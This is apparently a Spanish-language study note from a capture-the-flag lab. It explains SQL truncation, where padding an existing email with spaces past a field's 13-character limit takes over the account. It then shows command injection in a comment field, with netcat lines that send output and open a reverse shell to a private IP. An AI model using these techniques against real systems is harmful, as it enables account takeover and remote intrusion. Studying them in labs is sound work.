 En pocas palabras el sql truncation se aplica cuando existe un limite de caracteres en una pagina login entonces lo que haces es *sobrepasar el limite de caracteres y poder modificar el usuario o correo de una web*




Estamos en una pestaña de login pero vemos que TIENE LIMITE DE CARACTERES el campo de correo
entonces lo que hacemos es modificamos desde el inspector los caracteres y nos metemos y ponemos el correo que incluye los 13 caracteres y le agregamos un par de espacios y le agregamos una letra


![[Pasted image 20250416163359.png]]

Lo que hace es que todo lo demas lo borra pero los espacios resultantes los borra
entonces a pesar de que ya existe el usuario a la hora de crear el perfil si le agregamos los espacios  y la letra a lo que hace es que lo corrompe y se crea el perfil aunque ya exista

Y en base a ese error se le ha logrado cambia la contraseña con solo registrarse con el mismo correo pero añadiendole espacios superando el limite de caracteres

jaco@tornado     a
1234567890123

A partir del 13avo espacio borra lo demas pero lo registra y asi cambias la password

Ahora dentro de ese usuario nos enfrentamos un campo donde puedes ingresar comentarios entonces lo que hacemos es utilizamos hola; whoami
y vemos que se ejecuta
ahora probamos con
test; whoami | nc 192.168.0.62 443 y asi logramos conseguir conexion
Ahora usaremos
test; whoami | nc -e /bin/bash 192.168.0.62 443

ya una vez entablado conexion hacemos tratamiento de la tty
#tratamientotty

Hay algo llamado alias en apache es decir
Alias /~tornado/  "/home/tornado"

cuando quieres ingresar al directorio /home/tornado pero para hacer un atajo usas ~tornado/
